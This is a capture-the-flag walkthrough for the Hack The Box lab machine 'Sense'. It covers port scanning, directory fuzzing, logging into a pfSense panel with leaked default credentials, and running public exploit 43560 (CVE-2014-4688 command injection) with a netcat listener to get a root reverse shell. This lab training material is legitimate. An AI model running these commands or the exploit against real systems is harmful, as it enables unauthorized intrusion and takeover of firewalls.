 # Sense
**Machine ip:** 10.10.10.60

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.60 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.60`

+ 2 ports are open which are 80 and 443:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6749553f-08d1-460f-aad6-1fbb09ae51ea)

+ Port 80 redirects to port 443 so we really only have one port to enumerate.
+ Navigate to `https://10.10.10.60/`
+ pfsense login panel.
+ Try [pfsense](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html) default username and password.
+ Try brute force trial and errors.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d249333a-0934-4e18-a2ff-d8eeb457d36c)

+ No works, and continue with directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60/ -k -n -x html,php,txt -t 50
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9a9704e1-f08a-4337-8340-8807b3a9efb4)

+ **system-users.txt** and changelog.txt are interesting, and check them out.
+ Navigate to `https://10.10.10.60/system-users.txt` and `https://10.10.10.60/changelog.txt`
```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6601d0fd-d8aa-440c-b85e-eb1598afba6e)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cd931495-72f9-4c8f-b47b-d3f125ba4868)

+ Login pfsense using credentials `rohit`:`pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/97eb08bc-2825-44a1-a5ba-897c186d2689)

+ See that version is **2.1.3**


## Privilege Escalation

+ View any vulnerabilities that pfsense is associated with : `searchsploit pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d1945b44-4ad0-402f-add2-f2206ebf4ad8)

+ For more perspective: https://sploitus.com

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0e8107b4-dc87-45ac-b91e-5f8fdbf561ee)

+ pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection: [CVE-2014-4688](https://www.exploit-db.com/exploits/43560)
+ Check the vulnerability what's doing.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ff6726fb-505d-4fd4-90a8-460f9d7a5549)

+ Transfer the exploit: `searchsploit -m 43560`
+ Start listener: `nc -lnvp 5555`
+ `python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.7 --lport 5555 --username rohit --password pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d6f35b34-e308-432b-8f48-3756e6010eba)

+ Get root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/35e0d755-020d-4e1f-92e6-e8405893a3c0)


# References & Alternatives
+ https://vvmlist.github.io/#sense
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/sense-writeup-w-o-metasploit
+ https://0xdf.gitlab.io/2021/03/11/htb-sense.html
+ https://benheater.com/hackthebox-sense/
+ https://xavilok.es/posts/Sense.php
+ https://ethicalhacs.com/sense-hackthebox-walkthrough/
+ https://v3ded.github.io/ctf/htb-sense
+ https://medium.com/@andr3w_hilton/htb-sense-walkthrough-6236970644c1
